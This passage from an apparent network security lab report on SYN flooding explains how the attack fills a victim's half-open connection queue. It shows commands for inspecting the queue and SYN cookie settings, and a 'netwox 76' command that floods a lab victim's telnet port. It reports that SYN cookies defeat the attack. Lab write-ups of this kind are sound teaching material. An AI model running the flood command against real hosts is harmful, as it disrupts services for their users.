    
\includegraphics[width=1\textwidth]{tcp-observer-config.png}
\end{figure}



\newpage

\subsubsection{SYN Flooding Attacks}

\noindent
How a SYN flooding attack works is essentially flooding the victim’s queue
for storing half-opened connections without the intention to finish
the 3-way handshake procedure. This is achieved through spoofing he SYN packets
and filling the capacity of the queue of the victim’s machine so that the victim
cannot receive any more connections.

\vspace{0.2in}

\begin{center}
    \textbf{Check the size of the queue}
\end{center}

\begin{framed}
    \begin{verbatim}
sudo sysctl -q net.ipv4.tcp_max_syn_backlog
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-queue-size.png}
\end{figure}

\vspace{0.2in}

\begin{center}
    \textbf{Investigate the usage of the queue}
\end{center}

\begin{framed}
    \begin{verbatim}
netstat -tna
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-netstat-tna.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Run Attacks with SYN Cookie Countermeasure On}
\end{center}

\vspace{0.5in}

\noindent
The SYN cookie mechanism is turned on.

\begin{framed}
    \begin{verbatim}
sudo sysctl -a | grep cookie
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-cookie-flag.png}
\end{figure}

\vspace{0.5in}

\noindent
Launch the attack from the attacker to the victim.

\begin{framed}
    \begin{verbatim}
sudo netwox 76 -i 10.0.2.5 -p 23 -s raw
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-attack-on.png}
\end{figure}



\newpage

\noindent
Check the queue of the victim.

\begin{framed}
    \begin{verbatim}
netstat -tna
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-victim-on.png}
\end{figure}
\dots



\newpage

\noindent
The attack is not successful because of the countermeasure in place and
the observer can still get connected to the victim.

\begin{framed}
    \begin{verbatim}
telnet 10.0.2.5
netstat -tna | grep 10.0.2.6
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
